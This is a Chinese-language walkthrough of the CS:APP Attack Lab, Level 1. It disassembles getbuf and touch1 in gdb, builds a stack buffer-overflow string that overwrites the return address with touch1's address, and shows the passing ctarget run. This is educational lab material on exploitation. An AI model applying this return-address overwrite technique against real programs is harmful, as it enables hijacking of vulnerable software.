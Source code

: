 # Attack Lab

## 介绍

对2个有不同安全漏洞的程序进行5次攻击，完成后你将会收货：

- 学会针对缓冲区溢出漏洞进行攻击。
- 学会如何将程序写的更加安全，了解操作系统和编译的特征使程序出现更少的漏洞。
- 对x86-64机器代码的堆栈和参数传递有更深的理解。
- 对x86-64机器指令解码有更深的理解。
- 对gdb工具的熟练使用。

[实验帮助文档](http://csapp.cs.cmu.edu/3e/attacklab.pdf)

## Part I: Code Injection Attacks

前三个阶段利用**漏洞利用**字符串攻击`CTarget`。

### Level1

阶段1不需要代码注入，相反使用**漏洞利用**字符串就可以重定向程序执行另一现有程序。

`getbuf`函数在`CTarget`中被`test`函数被调用。

![](https://s3.ax1x.com/2021/01/02/rzfeat.png)

`getbuf`函数返回后会接着执行第5句代码，现在我们想改变这个行为。

![](https://s3.ax1x.com/2021/01/02/rzfaGT.png)

你的任务是改变程序执行方向，在`getbuf`函数返回后执行`touch1`函数。请注意，您的**漏洞利用**字符串可能还会破坏与该阶段不直接相关的堆栈部分，但这不会引起问题，因为`touch1`会导致程序直接退出。

思路是我们将`touch1`的起始地址的字节序列转为字符串后复写在返回地址在堆栈的位置。

首先我们使用反汇编查看一下`getbuf`和`touch1`函数。

```bash
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	  sub    $0x28,%rsp
   0x00000000004017ac <+4>:	  mov    %rsp,%rdi
   0x00000000004017af <+7>:	  callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq
End of assembler dump.
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:	  sub    $0x8,%rsp
   0x00000000004017c4 <+4>:	  movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:	mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:	callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:	mov    $0x1,%edi
   0x00000000004017dd <+29>:	callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:	mov    $0x0,%edi
   0x00000000004017e7 <+39>:	callq  0x400e40 <exit@plt>
End of assembler dump.
```

字符串的地址是`%rsp-0x28`，`getbuf`函数的返回地址是在`%rsp`。我们只需将`touch1`的地址`0x4017c0`写在返回地址即可。

构造字符串字节序列。

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 # 0x28的空间
c0 17 40 00 00 00 00 00 # touch1函数的地址 / retq的返回地址
```

注意字节排列需要还与机器的**大小端**有关。我这里使用的机器是小端模式（数据的高字节保存在内存的高地址中）。

我们再使用`hex2raw`工具将字节序列转为字符串。

```bash
./hex2raw < attack1.txt > attackraw1.txt
```

接着拿我们得到的字符串去做检测。

```bash
root@5139ac651595:/csapp/target1# ./ctarget -q -i attackraw1.txt
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

